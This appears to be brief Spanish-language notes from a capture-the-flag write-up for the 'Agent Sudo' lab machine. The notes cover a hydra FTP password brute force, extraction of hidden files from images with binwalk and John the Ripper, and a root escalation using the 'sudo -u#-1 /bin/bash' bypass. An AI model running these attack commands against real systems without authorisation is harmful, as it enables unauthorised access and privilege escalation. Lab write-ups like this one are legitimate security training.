

# Agent Sudo

## Nmap

## Web

Cambiamos el user agent a R

Cambiamos el user agent a C

## Fuzzing

## FTP

    hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.157.179

Podemos descargar todos los archivos usando ``mget *``

## Steg

    exiftool cutie.png

Podemos ver un Warning ``Trailer data after PNG IEND chunk``

Extraemos el zip de la imagen

    binwalk cutie.png -e

El archivo zip tiene contraseña, le pasamos ``JhonTheRipper``

    zip2john 8702.zip > zip.hashes

    john zip.hashes

Descomprimimos el zip

    7z e 8702.zip

Pasamos el mensaje oculto por ``CyberChef``

Extraemos el mensaje de la otra imagen

## SSH

Descargamos la imagen

    sudo scp james@10.10.157.179:Alien_autospy.jpg ~/

Buscamos la imagen en google. El nombre del incidente es ``Roswell alien autopsy``

## Escalada de Privilegios

Buscamos en google los permisos y encontramos como escalar

    sudo -u#-1 /bin/bash

